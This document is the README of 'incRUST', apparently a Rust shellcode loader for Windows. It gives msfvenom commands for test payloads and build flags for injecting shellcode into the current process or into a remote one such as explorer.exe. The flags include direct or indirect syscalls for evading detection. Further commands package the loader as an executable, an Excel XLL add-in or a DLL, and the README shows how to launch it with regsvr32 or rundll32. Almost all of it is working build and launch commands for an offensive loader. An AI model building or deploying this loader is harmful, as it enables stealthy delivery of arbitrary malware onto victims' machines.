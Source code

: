 incRUST, a rust loader !

# Payload Tes generation
## x86
msfvenom -f bin -p windows/exec cmd=calc exitfunc=thread -f base64 -o payload-x86.b64

## x86_64
### base 64
msfvenom -f bin -p windows/x64/exec cmd=calc exitfunc=thread -f base64 -o payload-x64.b64
### bin
msfvenom -f bin -p windows/x64/exec cmd=calc exitfunc=thread -f raw -o payload-x64.bin


# Build Options
## Payload
### Specifying the file containing the payload
--config "env.PAYLOAD_FILE_NAME.value='payload-x64.b64'"

### Type of payload
- bin
--features=payload_bin
- base64
--features=payload_bin



## injection target
- current process
```shell
--features=inject_self
```
- remote by process id
```shell
--features=inject_proc_id
```
The environment variable should be set at compile time :
```shell
--config "env.PROCESS_ID.value='10360'"
```
- remote process by name
```shell
--features=inject_proc_name
```
The environment variable should be set at compile time :
```shell
--config "env.PROCESS_NAME.value='explorer.exe'"
```

## injection type
- direct syscall
```shell
--features=syscall_direct
```
- indirect syscall
```shell
--features=syscall_indirect
```

# Build Samples
## x64
- executable
```shell
cargo build --bin incrust --target x86_64-pc-windows-gnu --release --features=no_console,payload_b64,inject_proc_name,syscall_indirect --config "env.PAYLOAD_FILE_NAME.value='payload-x64.b64'" --config "env.PROCESS_NAME.value='explorer.exe'" 
```

- excel library
```shell
cargo build --lib --target x86_64-pc-windows-gnu --release --features=xll,no_console,payload_b64,inject_proc_name,syscall_indirect --config "env.PAYLOAD_FILE_NAME.value='payload-x64.b64'" --config "env.PROCESS_NAME.value='explorer.exe'" 
```
then rename incrustlib.dll into .xll

- regsvr library
```shell
cargo build --lib --target x86_64-pc-windows-gnu --release --features=regsvr,no_console,payload_b64,inject_proc_name,syscall_indirect --config "env.PAYLOAD_FILE_NAME.value='payload-x64.b64'" --config "env.PROCESS_NAME.value='explorer.exe'" 
```

To fire : 
```cmd
regsvr32 /s .\incrustlib.dll
```
or
```cmd
rundll32.exe .\incrustlib.dll,DllRegisterServer
```


## x86
```shell
cargo build  --bin incrust --target i686-pc-windows-gnu --release --features=no_console,payload_b64,inject_self,syscall_indirect --config "env.PAYLOAD_FILE_NAME.value='payload-x86.b64'" 
```

```shell
cargo build --bin incrust --target i686-pc-windows-gnu --features=no_console,payload_b64,inject_proc_name,syscall_indirect --config "env.PAYLOAD_FILE_NAME.value='payload-x86.b64'" --config "env.PROCESS_NAME.value='explorer.exe'"
```

